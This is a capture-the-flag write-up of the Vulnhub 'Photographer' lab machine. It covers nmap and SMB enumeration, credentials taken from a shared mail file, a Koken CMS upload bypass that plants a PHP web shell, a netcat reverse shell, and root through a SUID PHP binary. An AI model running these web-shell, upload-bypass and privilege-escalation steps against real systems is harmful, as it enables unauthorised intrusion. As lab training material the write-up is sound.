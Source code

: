 ```yaml
---
title: Vulnhub - Photographer
description: My writeup on Photographer box.
categories:
 - vulnhub
tags: vulnhub smb koken php SUID
---
```


![](https://i.imgur.com/9KCQ8Re.png)

Hi all, after a long break im back again! Ready for new CTF adventures, let's begin!

You can find the machine there > [Photographer](https://www.vulnhub.com/entry/photographer-1,519/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.5
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-01 16:12 EEST
Nmap scan report for photographer.zte.com.cn (192.168.1.5)
Host is up (0.0013s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8000/tcp open  http-alt
MAC Address: 00:0C:29:89:92:69 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.42 seconds
$ nmap -p 80,139,445,8000 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-01 16:12 EEST
Nmap scan report for photographer.zte.com.cn (192.168.1.5)
Host is up (0.00030s latency).

PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Koken API error
|_http-trane-info: Problem with XML parsing of /evox/about
MAC Address: 00:0C:29:89:92:69 (VMware)
Service Info: Host: PHOTOGRAPHER
```

Port 80 doesnt give much, so let's enumerate SMB. Let's list the shares first.

```
$ smbmap -H $ip
[+] Guest session   	IP: 192.168.1.5:445	Name: photographer.zte.com.cn                           
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	sambashare                                        	READ ONLY	Samba on Ubuntu
	IPC$                                              	NO ACCESS	IPC Service (photographer server (Samba, Ubuntu))
```

Let's dig into `sambashare` since we have `READ ONLY`.

```
$ smbclient //$ip/sambashare
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: > ls
  .                                   D        0  Tue Jul 21 04:30:07 2020
  ..                                  D        0  Tue Jul 21 12:44:25 2020
  mailsent.txt                        N      503  Tue Jul 21 04:29:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 04:22:23 2020

		278627392 blocks of size 1024. 264268400 blocks available
smb: > get mailsent.txt 
getting file \mailsent.txt of size 503 as mailsent.txt (122.8 KiloBytes/sec) (average 122.8 KiloBytes/sec)
smb: > get wordpress.bkp.zip 
getting file \wordpress.bkp.zip of size 13930308 as wordpress.bkp.zip (85023.8 KiloBytes/sec) (average 82953.1 KiloBytes/sec)
smb: > exit
```

`mailsent.txt` provide us 2 mails & a message:

```
agi@photographer.com
daisa@photographer.com

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

About `wordpress.bkp.zip` seems useless.

Let's enumerate now port `8000` in the end we can see this: "Built with Koken" Let's search for possible exploits on koken.

This one seems good [exploit](https://www.exploit-db.com/exploits/48706){:target="_blank"}

## Koken exploitation - shell as www-data

I searched for the admin panel location it's under `/admin` and we can login as `daisa@photographer.com:babygirl`

![](https://i.imgur.com/vZtUKv7.png)

Now simply we can follow the PoC, i used a php reverse shell instead of this `<?php system($_GET['cmd']);?>`

I renamed it:

```
$ mv shell.php shell.php.jpg
```

Now let's upload it and capture the request with burp & change the shell.php.jpg to shell.php:

![](https://i.imgur.com/ybn6Oje.png)

We have shell!

```
$ nc -lvp 6666
listening on [any] 6666 ...
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@photographer:/$ ^Z
[1]+  Stopped                 nc -lvp 6666
$ stty raw -echo

www-data@photographer:/$ 
```

## www-data -> root

Now privesc to root is simple, let's search for SUID files.

```
www-data@photographer:/$ find / -uid 0 -perm -4000 -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2 <---
```

We can run php as root perfect.

```
www-data@photographer:/$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami;id
root
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

Cool box! :D


